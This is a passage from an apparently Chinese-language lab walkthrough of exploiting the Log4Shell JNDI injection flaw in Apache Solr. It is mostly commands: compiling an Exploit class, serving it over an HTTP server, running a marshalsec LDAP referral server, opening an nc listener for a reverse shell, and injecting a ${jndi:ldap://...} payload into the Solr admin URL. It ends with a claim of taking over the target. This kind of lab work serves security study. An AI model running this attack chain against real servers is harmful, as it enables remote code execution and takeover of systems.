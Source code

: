 
javac Exploit.java //编译

生成Exploit.class文件

直接在这个Java文件夹开启http服务：

    python -m http.server 4444
    

然后访问：192.168.59.130:4444

可以看到那个编译好的class文件

然后又到了熟悉的操作！！！

进入marshalsec目录

cmd

mvn clean package -DskipTests //运行

有蓝色success

生成一个target文件夹

cd target

接下来开启ldap侦听

    java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer  "http://192.168.59.130:4444/#Exploit" 1389
    
    

nc（nmap）开启监听：

nc -lvvp 7777 //linux

ncat.exe -lvvp 7777 //win10 要进入包含ncat.exe的文件夹下，然后调出cmd

开始注入！！！！！

[http://靶机IP:8983/solr/admin/cores?action=${jndi:ldap://攻击机IP:1389/Exploit}](http://xn--IP-eo8d177o:8983/solr/admin/cores?action=$%7Bjndi:ldap://%E6%94%BB%E5%87%BB%E6%9C%BAIP:1389/Exploit%7D)

[http://192.168.59.135:8983/solr/admin/cores?action=${jndi:ldap://192.168.59.130:1389/Exploit}](http://192.168.59.135:8983/solr/admin/cores?action=$%7Bjndi:ldap://192.168.59.130:1389/Exploit%7D)

![image-20230728211721712](https://gitee.com/MrNingF/picgo/raw/master/images/image-20230728211721712.png)

看效果：（前面的404是因为我win10杀了那个class文件，我去重新编译一次就可以访问到了）

![image-20230728211746396](https://gitee.com/MrNingF/picgo/raw/master/images/image-20230728211746396.png)

![image-20230728211840425](https://gitee.com/MrNingF/picgo/raw/master/images/image-20230728211840425.png)

重头戏来了：

拿下！！！！！

![image-20230728212138677](https://gitee.com/MrNingF/picgo/raw/master/images/image-20230728212138677.png)
